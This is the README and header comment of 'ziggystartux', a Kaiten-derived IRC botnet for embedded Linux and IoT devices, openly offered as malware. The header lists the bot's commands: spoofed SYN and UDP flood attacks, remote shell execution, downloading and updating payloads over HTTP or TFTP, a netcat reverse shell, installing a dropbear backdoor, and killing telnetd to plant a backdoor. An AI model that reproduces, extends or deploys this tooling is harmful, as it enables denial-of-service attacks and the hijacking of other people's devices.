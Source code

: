 # ziggystartux
A Kaiten rewrite, with much new functionality, and many fixes for the old stuff! Tailored toward embedded Linux devices, because... well, the internet of things of the new frontier!

/*******************************************************************************
 *  oooooo  o                      .oPYo.  o             ooooo                 *
 *     d'                         8       8               8                    *
 *    d'  o8 .oPYo. .oPYo. o    o `Yooo. o8P.oPYo. oPYo.  8  o    o `o  o'     *
 *   d'    8 8    8 8    8 8    8     `8  8 .oooo8 8  `'  8  8    8  `bd'      *
 *  d'     8 8    8 8    8 8    8      8  8 8    8 8      8  8    8  d'`b      *
 * dooooo  8 `YooP8 `YooP8 `YooP8 `YooP'  8 `YooP8 8      8  `YooP' o'  `o     *
 *.......:..:....8 :....8 :....8 :.....::..:.....:..:::::..::.....:..:::..     *
 *::::::::::::ooP'.::ooP'.::ooP'.:::::::::::::::::::::::::::::::::::::::::     *
 *::::::::::::...::::...::::...:::::::::::::::::::::::::::::::::::::::::::     *
 ***************************************************************************** *                                                               
 * This is a remake of Kaiten, hacked together from various versions scattered *
 * throughout cyberspace. New features include a variety of awesome shell one- *
 * liners, ability to upgrade the bot over http (via gcc or static binary), a  *
 * feature called "HackPkg" that installs binaries without dependencies like   *
 * wget or tftp, and more! Tip: run GETBB <tftp ip> first to get the most out  *
 * of this bot (it will install to /var/bin, which is almost always writable). *
 * The LOCKUP command will kill telnetd and run a backdoor of your choice (for *
 * simplicity we assume you will run it on port 23). This bot is updated often,*
 * so check back frequently for new killer features and ddos tools. In memory  *
 * of David Bowie, because he was an awesome musician and passed during the    *
 * early development of this bot. By ShellzRuS and all the other developers    *
 * that have worked on Kaiten over the last 20 years.                          *
 *                                                                             *
 *        "Hacking on kaiten is a right of passage" --Kod                      *
 *******************************************************************************
 *   This is a IRC based distributed denial of service client.  It connects to *
 * the server specified below and accepts commands via the channel specified.  *
 * The syntax is:                                                              *
 *       !<nick> <command>                                                     *
 * You send this message to the channel that is defined later in this code.    *
 * Where <nick> is the nickname of the client (which can include wildcards)    *
 * and the command is the command that should be sent.  For example, if you    *
 * want to tell all the clients with the nickname starting with N, to send you *
 * the help message, you type in the channel:                                  *
 *       !N* HELP                                                              *
 * That will send you a list of all the commands.  You can also specify an     *
 * astrick alone to make all client do a specific command:                     *
 *       !* SH uname -a                                                        *
 * There are a number of commands that can be sent to the client:              *
 *       PAN <target> <port> <secs>    = A SYN flooder                         *
 *       UDP <target> <port> <secs>    = An UDP flooder                        *
 *       UNKNOWN <target> <secs>       = Another non-spoof udp flooder         *
 *       NICK <nick>                   = Changes the nick of the client        *
 *       SERVER <server>               = Changes servers                       *
 *       GETSPOOFS                     = Gets the current spoofing             *
 *       SPOOFS <subnet>               = Changes spoofing to a subnet          *
 *       DISABLE                       = Disables all packeting from this bot  *
 *       ENABLE                        = Enables all packeting from this bot   *
 *       KILL                          = Kills Ziggy                           *
 *       GET <http address> <save as>  = Downloads a file off the web          *
 *       VERSION                       = Requests version of bot               *
 *       KILLALL                       = Kills all current packeting           *
 *       HELP                          = Displays this                         *
 *       IRC <command>                 = Sends this command to the server      *
 *       SH <command>                  = Executes a command                    *
 *       ISH <command>                 = "Interactive" SH, send to channel     *
 *       BASH <command>                = Run a bash command                    *
 *       SHD <command>                 = Daemonize command                     *
 *       UPDATE <http://server/bot>    = Update this bot		       *
 *       HACKPKG <http://server/bin>   = Install binary (no dependencies)      *
 *       INSTALL <http://server/bin>   = Install binary (via wget)             *
 *       BINUPDATE <http://server/bin> = Update a binary (via wget)            *
 *       SCAN <nmap opts>              = Call an nmap wrapper script           *
 *       GETSSH <http:serverdropbear>  = Install dropbear, run on port 30022   *
 *       RSHELL <ip port>              = Equates to nohup nc ip port           *
 *       GETBB <tftp server>           = Get a proper busybox (via tftp)       *
 *       LOCKUP <http://server/bin>    = Kill telnet, install a backdoor!      *
 *       
 * Remember, all these commands must be prefixed by a ! and the nickname that  *
 * you want the command to be sent to (can include wildcards). There are no    *
 * spaces in between the ! and the nickname, and there are no spaces before    *
 * the !                                                                       *
 *                                                                             *
 *                               - contem on efnet                             *
 *******************************************************************************/
